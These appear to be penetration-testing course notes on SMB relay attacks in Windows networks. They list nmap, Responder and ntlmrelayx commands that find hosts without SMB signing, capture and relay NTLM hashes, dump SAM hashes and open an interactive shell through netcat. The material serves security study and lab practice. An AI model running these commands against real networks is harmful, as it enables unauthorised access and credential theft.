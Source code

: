 - Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines via SMB and potentially gain access.

### Requirements
- SMB Signing must be disabled or not enforced on the target.
	- SMB Signing is disabled by default on workstations, whereas it is enabled on servers.
- Relayed user credentials must be admin (local administrator) on machine for any real value.
- Credentials cannot be relayed to the same machine

### Identify hosts without SMB Signing enabled
- `nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24`
	- Ideally we are looking for "Message signing enabled but not required".

### Configuring Responder
- `sudo mousepad /etc/responder/Responder.conf`
- Make sure SMB and HTTP are set to "Off".
	- We do this to make sure that the hashes get relayed instead of just being captured.

### Running Responder
- `sudo responder -I tun0 -dPv`

### Setting up an SMB Relay
- Install ntlmrelayx via PimpMyKali
- `sudo ntlmrelayx.py -tf targets.txt -smb2support`
	- When an event occurs, the `ntlmrelayx` tool dumps the SAM hashes of the target machine, which we can use to log into the machine.
	- To get an interactive shell instead of the default behaviour (dumping SAM hashes), we can use the `-i` flag.
		- Connecting to the interactive shell can be done using netcat: `nc 127.0.0.1 11000`
	- To just execute a single command instead of getting an interactive shell we can use the `-c` flag, followed by the command in double quotes.